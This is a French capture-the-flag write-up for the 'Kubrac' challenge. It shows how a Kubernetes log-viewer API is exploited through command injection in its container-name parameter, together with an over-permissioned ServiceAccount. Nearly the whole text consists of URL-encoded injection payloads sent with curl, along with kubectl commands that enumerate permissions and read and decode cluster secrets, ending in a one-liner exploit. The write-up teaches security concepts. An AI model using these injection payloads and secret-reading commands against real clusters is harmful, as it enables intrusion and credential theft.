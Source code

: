 # Kubrac Write-Up

L'objectif du challenge Kubrac est de se questionner sur la sécurité des applications Kubernetes utilisant des politiques RBAC. Beaucoup d'applications ont besoin de communiquer avec l'api-server du cluster pour monitorer (e.g. Prometheus Exporter), déployer des ressources à la volée (e.g. ArgoCD), ...

Dans ce contexte, Kubrac expose une petite application permettant de parcourir les logs des pods du namespace dans lequel il est déployé, grâce à un ServiceAccount. Toutefois ce ServiceAccount a mal été fait, et possède beaucoup trop de permissions, en particulier pour lire d'autres ressources que les logs des conteneurs de Pods. En effet, lors du debug, il est fréquent de faire un petit `kubectl get all` pour savoir si tout va bien !

En plus de cela, l'application est vulnérable à de la _command injection_ ([CWE-77](https://cwe.mitre.org/data/definitions/77.html)) sur le nom du conteneur...

## Reconnaissance de l'application

On observe rapidement qu'il existe 2 endpoints API:
- `GET /api/v1/containers` qui retourne la liste des conteneurs du namespace
- `GET /api/v1/logs?name=<name>` qui retourne les logs du conteneur donné

En soumettant autre chose qu'un nom de conteneur (en modifiant le HTML local ou en modifiant la requête), on va voir que l'application se comporte bizarrement.

On comprend assez vite que l'application semble injecter le `name` dans une commande kubectl, que l'on valide avec l'envoi d'un `name=-h`.
```bash
$ curl -s "http://localhost:8081/api/v1/logs?name=-h" | jq -r '.data'
```

<details>
<summary>Example</summary>

```bash
$ curl -s "http://localhost:8081/api/v1/logs?name=flip;flop" | jq -r '.data'
error: expected 'logs [-f] [-p] (POD | TYPE/NAME) [-c CONTAINER]'.
POD or TYPE/NAME is a required argument for the logs command
See 'kubectl logs -h' for help and examples
```

</details>

## Injection de commande

Pour facilement injecter des commandes et limiter le bruit, on va donc escape la commande précédente avec `>/dev/null 2>&1 ||true;`. On pourra ainsi soumettre n'importe quelle commande sans avoir à s'inquiéter du comportement de la commande précédente. D'ailleurs, on se rend compte que la commande injectée se termine par `--tail=20`, on ajoute donc le suffixe `;#`, toujours pour retirer le bruit.

Pour injecter notre payload, il va falloir l'encoder. On peut utiliser un site pour cela: [Meyerweb URL Decoder/Encoder](https://meyerweb.com/eric/tools/dencoder/)

Vu que la réponse est un JSON, on va manipuler le résultat sous la forme `{"data":"..."}` avec `jq` en faisant `curl -s ... | jq -r '.data'`.

## Reconnaissance Kubernetes

Pour reconnaître un peu plus l'environnement, on exécute un `kubectl get all`.

<details>
<summary>Example</summary>

Payload: `>/dev/null 2>&1 ||true; kubectl get all;#`

Encoded: `%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20all%3B%23`

Call:
```bash
$ curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20all%3B%23 | jq -r '.data'
NAME                                           READY   STATUS    RESTARTS   AGE
pod/monitoring-dep-8cae9fe2-687777959c-8xz2l   1/1     Running   0          30s
pod/popacola-merch-179c01e2-5d896ff7d9-7r4h6   1/1     Running   0          30s

NAME                              TYPE        CLUSTER-IP   EXTERNAL-IP   PORT(S)    AGE
service/monitoring-svc-f239123c   ClusterIP   None         <none>        8080/TCP   28s

NAME                                      READY   UP-TO-DATE   AVAILABLE   AGE
deployment.apps/monitoring-dep-8cae9fe2   1/1     1            1           30s
deployment.apps/popacola-merch-179c01e2   1/1     1            1           30s

NAME                                                 DESIRED   CURRENT   READY   AGE
replicaset.apps/monitoring-dep-8cae9fe2-687777959c   1         1         1       30s
replicaset.apps/popacola-merch-179c01e2-5d896ff7d9   1         1         1       30s
```

</details>

On reconnaît l'environnement que le _log viewer_ nous montrait. Toutefois, nous voulons savoir ce à quoi nous avons accès afin de trouver notre bonheur !

Pour ce faire, on injecte la commande `kubectl auth can-i --list`.

```bash
$ curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20auth%20can-i%20--list%3B%23 | jq -r ".data"
Resources                                       Non-Resource URLs                      Resource Names   Verbs
selfsubjectreviews.authentication.k8s.io        []                                     []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                     []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                     []               [create]
configmaps                                      []                                     []               [get list]
pods/log                                        []                                     []               [get list]
pods                                            []                                     []               [get list]
replicationcontrollers                          []                                     []               [get list]
secrets                                         []                                     []               [get list]
services                                        []                                     []               [get list]
daemonsets.apps                                 []                                     []               [get list]
deployments.apps                                []                                     []               [get list]
replicasets.apps                                []                                     []               [get list]
statefulsets.apps                               []                                     []               [get list]
horizontalpodautoscalers.autoscaling            []                                     []               [get list]
cronjobs.batch                                  []                                     []               [get list]
jobs.batch                                      []                                     []               [get list]
..... (truncated)
```

On se rend compte que pour une raison obscure (probablement du debug) on a accès en lecture aux secrets. On va donc les lister avec `kubectl get secret`.

```bash
$ curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20secret%3B%23 | jq -r ".data"
NAME            TYPE     DATA   AGE
flag-2b3b469a   Opaque   2      10m
```

Avec un seul secret, on va aller lire son contenu avec `kubectl describe secret/flag-2b3b469a`.

```bash
$ curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20describe%20secret%2Fflag-2b3b469a%3B%23 | jq -r ".data"
Name:         flag-2b3b469a
Namespace:    ns-48e1560f
Labels:       app.kubernetes.io/component=kubrac
              app.kubernetes.io/name=monitoring
              app.kubernetes.io/part-of=kubrac
Annotations:  pulumi.com/autonamed: true

Type:  Opaque

Data
====
top-secret:  28 bytes
flag:        66 bytes
```

On va aller chercher l'attribut `flag`, qui semble être ce que nous cherchons, avec `kubectl get secret/flag-2b3b469a --template={{.data.flag}}`.

```bash
$ curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20secret%2Fflag-2b3b469a%20--template%3D%7B%7B.data.flag%7D%7D%3B%23 | jq -r ".data" | base64 -d
24hIUT{KubÉ®nétE5 rbã¢ å®3-p¤WÊRFùll BÙt-ÐÂNgë®ouS}
```

## TL;DR;

One-liner pour exploit l'injection de command et les permissions trop large du ServiceAccount.

```bash
curl -s http://a0b1c2d3.24hiut25.ctfer.io/api/v1/logs?name=%3E%2Fdev%2Fnull%202%3E%261%20%7C%7Ctrue%3B%20kubectl%20get%20%22secret%2F%24(kubectl%20get%20secret%20-o%20jsonpath%3D%27%7B.items%5B*%5D.metadata.name%7D%27)%22%20--template%3D%7B%7B.data.flag%7D%7D%7Cbase64%20-d%3B%23 | jq -r '.data'
```

On peut se faire un petit soft dans son langage favori et faire un alias sur `kubectl` pour directement faire nos calls depuis la CLI.

On peut récupérer l'attribut `top-secret` avec `kubectl get secret/flag-2b3b469a --template='{{ index .data "top-secret"}}' | base64 -d` mais on se fait Rick Roll...
